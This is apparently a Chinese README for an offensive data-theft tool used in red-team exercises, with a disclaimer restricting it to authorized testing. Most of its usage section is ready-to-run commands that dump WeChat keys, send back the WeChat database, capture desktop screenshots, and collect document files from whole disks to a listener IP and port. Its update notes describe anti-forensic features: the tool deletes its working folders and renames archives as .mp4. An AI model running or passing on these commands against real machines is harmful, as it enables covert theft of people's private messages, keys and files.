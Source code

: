 ### Server


```plain
Server.exe port # 默认8888端口
```

### Command

```plain
[+] FileSearch.exe dumpkey # 获取微信密钥
[+] FileSearch.exe send 127.0.0.1 8888 # 从默认路径回传微信数据库
[+] FileSearch.exe send 127.0.0.1 8888 vxpath # 指定微信数据库路径
[+] FileSearch.exe photo 127.0.0.1 8888 # 桌面截屏回传
[+] FileSearch.exe search d:\ .docx # 查找指定类型文件
[+] FileSearch.exe upload path 127.0.0.1 8888 # 上传文件
[+] FileSearch.exe uploads path 127.0.0.1 8888 # 上传文件夹
[+] FileSearch.exe all 127.0.0.1 8888  # 全盘获取指定类型文件
[+] FileSearch.exe user 127.0.0.1 8888 # c:\users目录下查找类型文件
```

### 更新说明

1、all参数排除了c盘符查找指定类型文件，避免大量缓存文件造成卡顿，添加user参数在c:\users目录下查找

可自行修改需要上传的文件类型（747行），默认为：

```plain
	const char* filetype[] = { ".doc",".xls", ".pdf" ,".docx",".xlsx",".txt",".bat",".ppt",".pptx" };
```

2、运行成功后会自动删除生成出来的文件夹以及压缩包，压缩包文件随机修改成了mp4后缀

3、优化了查找文件匹配方式，支持模糊匹配或精确匹配

4、新增uploads参数遍历指定文件夹压缩上传功能

5、新增photo参数桌面截屏回传功能

### 功能展示：

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668769423893-416c9225-1319-4133-a468-3cb6cee900d4.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668770076653-85c5e09c-e9a8-436f-8ce5-8987cc079882.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668772513228-738d3cd4-5aef-49e5-9d31-6df8d9c6e8f9.png)

## 已知问题：

测试在1M带宽的服务器上传输大文件（G级）可能会损坏，感觉这跟双方网络波动有一定关系，后续会改成自动分卷压缩来上传，目前暂用的解决办法：

例如本地自带Rar进行切割，回传后

```plain
C:\Program Files\WinRAR\Rar.exe a -ep1 -m0 -v2mC:\Users\admin\Downloads\1.rar C:\Users\admin\Downloads\xxx.jar
```

注释：-v2m 即分卷的大小为2m 

2、使用WinRAR内置修复功能或者使用[DiskInternals ZIP](https://www.diskinternals.com/zip-repair/)进行修复损坏文件

> 后续还会更新~

如果发现缺陷请提交 issue，非常感谢！

#### 本人失业多年，已不参与大小HW活动的攻击方了，若溯源到id与本人无关

#### 免责声明

 本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

